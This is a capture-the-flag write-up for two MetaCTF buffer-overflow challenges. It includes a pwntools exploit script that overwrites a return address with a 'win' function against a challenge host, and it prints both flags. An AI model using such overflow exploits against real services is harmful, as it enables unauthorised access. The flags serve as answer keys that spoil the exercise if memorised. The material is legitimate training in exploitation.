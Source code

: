 ### Solution:

this is just a simple buffer overflow. use `Sup3rs3cr3tC0de\x00` as your first payload
and overflow with 40 junk and then call the `win` function to get the flag

{% highlight python %}
#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/metaCTF/binex/bb1/bb1")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    attach(r)
    p = "Sup3rs3cr3tC0de\x00"
    p += "A" * 40
    p += p64(elf.sym['win'])
    r.sendline(p)
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("host1.metaproblems.com", 5151)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

FLAG: MetaCTF{c_strings_are_the_best_strings}

<h1 id="Bafflingbuff0">Baffling Buffer 0</h1>

### Description:

    While hunting for vulnerabilities in client infrastructure, you discover a 
    strange service located at host1.metaproblems.com 5150. You've uncovered the 
    binary and source code code of the remote service, which looks somewhat 
    unfinished. The code is written in a very exploitable manner. Can you find 
    out how to make the program give you the flag?

### Solution:

a simple buffer overflow. just input a lot of string and the flag will appear

FLAG: MetaCTF{just_a_little_auth_bypass}